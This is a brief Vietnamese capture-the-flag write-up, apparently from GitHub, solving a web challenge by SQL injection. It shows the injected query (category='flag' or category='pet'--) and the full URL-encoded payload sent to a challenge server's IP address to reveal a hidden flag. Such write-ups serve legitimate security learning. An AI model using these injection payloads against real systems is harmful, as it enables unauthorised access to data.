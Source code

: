 = Khi nhấp vào `category: flag` thì thấy không hiện gì 

=> Bị ẩn đi 

= Câu lệnh này tương đương với `SELECT * FROM list WHERE category='flag'`

= Thử Injeciton thành: 

`
SELECT * FROM list WHERE category = 'flag' or category = 'pet'-- 
` 

=> Câu lệnh luôn trả về đúng.

= Lúc ấy URL sẽ thành:

`
http://103.97.125.56:31907/list?category=flag%27%20or%20category=%27pet%27--
`

=> Hiện Flag:
<img width="1571" height="761" alt="image" src="https://github.com/user-attachments/assets/6c431deb-3eab-4b8a-a399-6e99ee41a40a" />




